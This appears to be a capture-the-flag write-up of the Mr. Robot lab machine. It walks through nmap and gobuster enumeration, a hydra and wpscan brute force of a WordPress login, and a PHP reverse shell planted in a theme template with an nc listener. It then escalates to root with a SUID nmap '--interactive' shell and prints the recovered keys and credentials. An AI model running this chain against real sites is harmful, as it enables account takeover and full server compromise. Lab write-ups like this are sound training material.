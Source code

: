 We begin enumeration by scanning our net work with nmap
```
nmap -sV -sP 10.0.0.93/24
```
We find the target ip and do another nmap scan on the target box to find open ports:

```
nmap -sV -sC -vv -T4 10.0.0.48
```
We then enumerate with gobuster and see if there is a robots file and we find the first key:

key1: ```073403c8a58a1f80d943455fb30724b9```

We also find what looks to be a password list listed in the robots.txt file.

```
gobuster dir -u http://10.0.0.48/ -w=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Continuing with enumeration we begin to look at the websites looking for user credentials and any clues.
We find a wordpress admin site and decide to use ```burpsuite``` to intercept the request. Since this is a machine based on the series mr.robot we are going to use hydra and combine the name ```Elliot``` who is the main character of the series and attempt to brute force the wordpress log in form. We find the username and password for the wp site.
```Elliot ER28-0652```. We sorted the list before doing a wp-scan: ```sort fsocity.dic| uniq > fsoc.dic ```.
commands used: 
```
hydra -l fsocity.dic -P 123  10.0.0.48 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username"
```

```
 wpscan -t 10000 --url http://10.0.0.48 --usernames Elliot --passwords fsoc.dic
```
Once in the site we go to appeareans >> edit & and the php revershell to the 404.php template open up a ncat listener on port 4444 ```nc -nlvp 4444``` and gain acces as daemon of which we then find the robot user and a file with an md5 hash that is theu sers password and log in as that user.

key 2: ```822c73956184f694993bede3eb39f959```

We then run the command:
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
to find weak binaries and found nmap installed on the server.

when then ran ```nmap --interactive``` ```!sh``` and gained a root shell

key3: ```04787ddef27c3dee1ee161b21670b4e4```

system has been rooted action is no longer required.
